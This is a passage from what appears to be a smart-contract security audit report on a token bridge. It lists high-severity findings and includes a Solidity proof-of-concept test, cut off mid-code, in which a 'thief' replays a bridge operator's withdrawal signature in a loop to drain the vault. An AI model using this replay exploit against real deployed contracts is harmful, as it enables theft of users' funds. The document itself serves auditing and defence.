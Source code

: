 

## High Issues

### [H-1] `TokenFactory::deployToken()` function will not work on `zkSync ERC` because `CREATE` opcode does not work on `zkSync ERC` as per their docs. Tokens will be locked forever

### [H-2] Lack of replay protection in `L1BossBridge::withdrawTokensToL1()` allows withdrawals by signature to be replayed

**Description:**

Users who want to withdraw tokens can either call either of the `L1BossBridge::sendToL1()` or `withdrawTokensToL1()` functions. These functions require the caller to send along some withdrawal data signed by one of the approved by one of the approved bridge operators.    
These signatures however lack any form of replay-protection mechanism, and because they are visible on-chain. they are vulnerable to replay attacks.

**Impact:**

Valid signatures from any bridge operator can be reused by any attacker to continue executing withdrawals until the vault is completely drained.

**Proof of Concept:**

Add the following test to the `L1TokenBridge.t.sol` file:

```solidity
function testSignatureReplayAttack() public {
        address vaultAddr = address(vault);
        address tokenAddr = address(token);
        // assume the vault already holds tokens
        uint256 vaultStartingBalance = 1000e18;
        deal(tokenAddr, vaultAddr, vaultStartingBalance);

        address thief = makeAddr("thief");
        uint256 thiefStartingBalance = 100e18;
        deal(tokenAddr, thief, thiefStartingBalance);

        // thief deposits tokens to L2
        vm.startPrank(thief);
        token.approve(address(tokenBridge), type(uint256).max);
        tokenBridge.depositTokensToL2({
            from: thief,
            l2Recipient: thief,
            amount: thiefStartingBalance
        });

        (uint8 v, bytes32 r, bytes32 s) = _signMessage(
            _getTokenWithdrawalMessage(thief, thiefStartingBalance),
            operator.key
        );

        // because signature is on-chain, thief can use it to continue withdrawals, and protocol will approve because it
        // is valid
        while (token.balanceOf(vaultAddr) > 0) {
            tokenBridge.withdrawTokensToL1({
                to: thief,
                amount: thiefStartingBalance,
                v: v,
                r: r,
                s: s
```
